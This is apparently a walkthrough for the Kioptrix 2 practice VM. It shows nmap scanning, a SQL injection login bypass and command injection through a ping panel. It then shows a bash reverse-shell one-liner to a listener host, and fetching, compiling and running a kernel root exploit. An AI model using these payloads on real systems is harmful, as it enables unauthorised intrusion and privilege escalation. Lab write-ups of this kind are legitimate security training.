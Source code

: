 # Kioptrix 2- Walkthrough

First We check what's our ip with simple shell command:
```
ifconfig
```
![alt text](/screens/ifconfig2.png)

Then we need to check the hosts running on our IP address with another shell command:
```
netdiscover
```
![alt text](/screens/netdiscover2.png)

**PCS Systemtechnik GmbH** is Virtual Box Vendor so it must be our VM.

Let's scan it with **nmap**!

		* -sS stands for TCP SYN scan 
		* -A  DetectS OS and Services
    
    
 ```
 nmap -sS -A <ip address>
 ```
 
 ![alt text](/screens/nmap2.png)
 
 Port 631 caught my eye immediatly and CUPS 1.1 had some known vulnerabilities but noone of the exploits worked.
 Lets search further.
 
 Port 80, which is standard http port is open.
 When accessed it gives us a login panel.
 
  ![alt text](/screens/login1.png)

### SQL Injection

I tried some default credentials but they didnt work.
Lets try to bypass it with SQL Injection.

We can guess that the query looks something like

```
SELECT * FROM users WHERE username = <our input> AND password = <out input>
```	

If we pass ' or '1'='1'-- query will look now like this:

```
SELECT * FROM users WHERE username = '' or '1'='1'--  AND password = <out input>
```
	
"-- " (with space in the end) is MYSQL comment sign. Passing it in the end means that the end of the query will be commented out, so the query really looks like:

```
SELECT * FROM users WHERE username = '' or '1'='1'--
```

OR statement means that only one of the arguments needs to be True and as '1'='1' is always True - We bypassed the login form.
  
  ![alt text](/screens/login2.png)
  
After login we get redirected to a Panel which lets us Ping the machines over internet.

  ![alt text](/screens/panel.png)
  
  Lets add another command with ; (semicolon) and see if it works.
  
  ![alt text](/screens/commandinjection.png)
  
Yes! It gives us back the output from both commands so the panel is vulnerable to Command Injection.
As output shows we're logged in as apache, so now we need to use privilege escalation in order to get the root.

### Privilege Escalation

Linux command uname -a (Unix name) prints back info about the name and version of operating system running on machine.

  ![alt text](/screens/panel2.png)

  ![alt text](/screens/uname.png)
  
  So we see that the system running is **GNU/Linux version 2.6.9**
  Quick research shows that this kernel is vulerable!
	https://www.exploit-db.com/exploits/9542
	
Exploit is **local** so we need to get it into victim machine.

On our machine we need to set up a netcat listener

```
netcat -v -l -p 4444

-v (verbose)
-l (listen)
-p(port)
4444-port to listen on
```
On the victim machine we gonna inject a one line reverse shell with our IP and port that we specified in netcat listener.

```
www.google.com;bash -i >& /dev/tcp/192.168.8.104/4444 0>&1
```
Once we click submit our netcat listener should revice a connection.

  ![alt text](/screens/netcat_listener.png)
  
 Great, we have a reverse shell on victim machine.
 
 ## Using the exploit
 
We need to download the exploit to our machine and serve as a host to download it from victim machine.
Python's SimpleHTTPServer will do the job just fine.

Move to the directory where the exploit is and start SimpleHTTPServer with command:

```
python -m SimpleHTTPServer
```

Once started, we can access the files from the victim machine.
Lets do it using **wget** 

```
http://192.168.8.104:8000/9542.c
```

Woops! **An Error gonna come up**

  ![alt text](/screens/wgeterror.png)

Its because we dont have the required permission as the **apache** user.
But we do have an access to **/tmp/** location, lets insert it there then!

  ![alt text](/screens/wgetsuccess.png)
  
 Works perfectly!
Its a .c file so we need to compile it now using **gcc**.
Type: ```gcc 9542.c -o exploit```
And use the compiled exploit with ```./exploit```

  ![alt text](/screens/root2.png)
  
  **Root obtained!** 
